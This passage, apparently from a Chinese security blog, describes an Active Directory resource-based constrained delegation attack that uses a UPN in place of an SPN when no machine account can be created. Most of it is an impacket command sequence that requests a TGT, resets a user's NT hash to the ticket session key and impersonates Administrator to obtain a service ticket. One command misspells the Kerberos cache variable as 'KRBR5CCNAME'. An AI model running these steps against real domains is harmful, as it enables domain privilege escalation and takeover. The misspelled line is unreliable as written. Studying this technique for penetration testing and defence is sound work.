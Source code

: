 [![](assets/1702372846-418a5e3c015f48af5d3db7f6cc596111.png)](https://xzfile.aliyuncs.com/media/upload/picture/20221124123631-9197cea6-6bb1-1.png)

#### 无 MAQ 时的新利用方式

当用户具有 A 机器的写权限，但是无法新建机器利用 rbcd，且当前用户没有可用的 SPN 时，可以使用该技术。该技术还未并入主进程。

使用 UPN 替代 SPN 进行 rbcd。流程如下：

用 test 用户的权限请求模拟 administrator 用户的服务票据，仅在 rbcd 情况下有效。且获取 TGT 后要将 TGT 的 Sessionkey 改为 test 的 hash。否则 TGS 无法解密

```plain
#请求 test/test 用户的 TGT
getTGT.py -hashes :$(pypykatz crypto nt 'password') test/test
#查看 TGT 里面的 Ticket Session Key
describeTicket.py 'TGT.ccache' | grep 'Ticket Session Key'
#将 test/test 用户的 hash 改为 TGTSessionKey
smbpasswd.py -newhashes :TGTSessionKey test/test:'password'@'dc01'
#通过委派模拟为 administrator 用户
KRBR5CCNAME='TGT.ccache'
getST.py -u2u -impersonate Administrator -k -no-pass test/test
#还原 test/test 用户的 hash
smbpasswd.py -hashes :TGTSessionKey -newhashes :OldNTHash test/test@'dc01'
```
